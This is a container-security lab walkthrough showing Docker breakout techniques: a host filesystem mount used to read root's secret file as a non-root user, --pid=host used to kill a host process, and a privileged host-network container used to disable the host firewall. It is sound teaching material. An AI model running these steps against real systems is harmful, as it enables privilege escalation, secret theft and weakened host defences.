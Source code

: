 ## Container Breakout - Multiple Attacks

### Volume Mounts

* ssh into the container virtual lab:

    ```
    ssh root@<IPAddrGivenToYou>
    password: <passwordGivenToYou>

    ```

* Run `whoami` to confirm that you are the `root` user.

```commandline
root@we45:~# whoami
root
root@we45:~#
```

* Validate that there's a secrets file in the root dir with `cat secret.txt`

* Run `sudo su we45` to login as a normal user.

    ```commandline
    root@we45:~# sudo su we45
    we45@we45:~$
    ```

* Check if the user `we45` has access to `docker` by running `docker images` and `docker ps`

    ```commandline
    we45@we45:~$ docker images
    we45@we45:~$ docker ps
    ```

* Run `cat /root/secret.txt` read the content of `secret.txt` file that was created by `root` user.

```commandline
we45@we45:~$ cat /root/secret.txt
cat: /root/secret.txt: Permission denied
```

* Run `docker run -ti --rm -v /root:/hostFS/ alpine sh` as `we45`(non-root user)

```commandline
we45@we45:~$ docker run -ti -v /:/hostFS/ alpine
/ #
```

* Run `cat /hostFS/secret.txt` to view the content of the file.

```commandline
/hostFS/root # cat secret.txt
This is a secret
```

* Run `exit` to exit from the container.

```commandline
/hostFS/root # exit
we45@we45:~$
```


* Run `clean-docker` to stop all the containers

```commandline
root@we45:~$ clean-docker
```

### PID Boundary

* Run `tmux` to create a multiplexed terminal. Your screen should have a band below that looks like this:

![](img/tmux-greenband.png)

* Now, type `ctrl + b + "` to split panes horizontally. We're going to operate on two panes

![](img/split_pane.png)

* Let's first operate on the top pane, with the command `ctrl + b + (upper arrow key)`
* Now, run our program `./root/super_important_process.sh`. It should start running a "super important" process
* Let's operate on the lower pane with `ctrl + b + (lower arrow key)`
* Here, run `docker run -ti --pid=host alpine sh`
* Now run `ps aux` and look at the process tree. You will see that your container's processes and the host's processes have NOT been isolated
* Now run `ps aux | grep 'super'` to triangulate the super_important process. get the `pid` of the process
* now run `kill <pid>` and you will see that the super important process (running on host) is now terminated.

![](img/terminate_process.png)

* Let's dismantle the multiplexed terminal session, with `ctrl + b + x`, you will be presented with a prompt like this:

![](img/remove_tmux.png)

* press `y` to select `yes` and the window shuts down. Do the same with the other tmux session as well

### Host Network

* Check if `ufw` is enabled on the host machine by running `ufw status`

```commandline
root@we45:~# ufw status
Status: inactive
```

* Enable `ufw` by running `ufw enable` and `ufw allow ssh`

* Run `docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask`

```
docker run -d -p 5000:5000 --privileged --net=host abhaybhargav/vul_flask
WARNING: Published ports are discarded when using host network mode
de08041d12e0ed8f4aa0ee3ceeef65c760baee2b9d1c839a89d5ba642a506d03
```

* Now run `docker ps` and copy the `CONTAINER_ID` of the running container

```
[root@container-training-centos ~]# docker ps
CONTAINER ID        IMAGE                    COMMAND             CREATED             STATUS              PORTS               NAMES
de08041d12e0        abhaybhargav/vul_flask   "python app.py"     3 seconds ago       Up 2 seconds                            dreamy_ptolemy
```

* Now run `docker exec -it <container ID> /bin/bash` you should now be in the shell environment in the container

* Run `apt update && apt install -y ufw` to install the firewall program

* Run `ufw status` and you should see that the firewall is active.

* Now run `ufw disable` to disable the firewall from the Container

* Run `exit` to exit the docker shell and run `clean-docker`
